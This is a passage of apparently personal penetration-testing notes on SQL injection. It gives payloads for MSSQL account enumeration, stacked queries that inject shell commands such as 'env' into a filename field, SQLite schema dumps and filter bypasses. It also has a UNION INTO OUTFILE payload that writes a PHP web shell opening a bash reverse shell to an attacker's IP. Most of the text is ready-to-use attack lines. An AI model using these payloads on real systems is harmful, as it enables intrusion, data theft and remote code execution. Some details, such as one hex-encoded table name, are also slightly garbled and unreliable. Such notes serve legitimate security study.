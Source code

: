 		test' UNION ALL SELECT 58,58,58,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000),58-- gxQm

	Then we can automate the task by creating a pyton  script like this one [Python - Brute Force AD From SQLi](evernote:///view/154730691/s619/1bc19770-5c80-e063-dceb-edb4f3f302c1/1d460891-63f3-60f9-1414-81daf5a18a5c/).
***
### Stacked queries  
https://secureops.io/2019/09/magical-image-gallery/  

	id=1; update photos set filename= '*|| ls ./files > temp.txt' where id=3; commit; --
	id=1; update photos set filename= '*|| env > temp.txt' where id=3; commit; --
	id=4 UNION select 'temp.txt'
***
### SQLITE  
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md  
https://www.tariqhawis.com/htb-under-construction-web-challange/  

	SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
	test1' AND 1=0 UNION SELECT 1,(SELECT group_concat(sql) FROM sqlite_master),3;--

	- Get columns from a table  

			' union select 1,username,column_name,is_admin,5 from tableimlookingfor
			jurassic/item.php?id=1,union,select,null,user(),column_name,null,null,from,information_schema.columns,where,table_name = 0x7573657273,LIMIT,1,1  

***
### Get a shell from an UNION Injection  

		union select '<?passthru("bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'");?>', null into outfile '/tmp/reverse.php'
***
### Bypass filtering

- If some characters are not allowed, like the quote ('), we can try different techniques  

	- Encode it in url format.
	- Remove it from the injection and if needed encode strings in Hex.
	- Remove the first quote if needed and replace by AND if possible.

- For example:

		' union select 1,column_name,null,null,5 from information_schema.tables where table_schema = 'tableimlookingfor'

		\\ BECOMES

		AND union select 1,column_name,null,null,5 from information_schema.tables where table_schema = 0x7461626c65696d6c6f6f6b696e6666f72

- If some words are filtered, we can try to mix different cases  
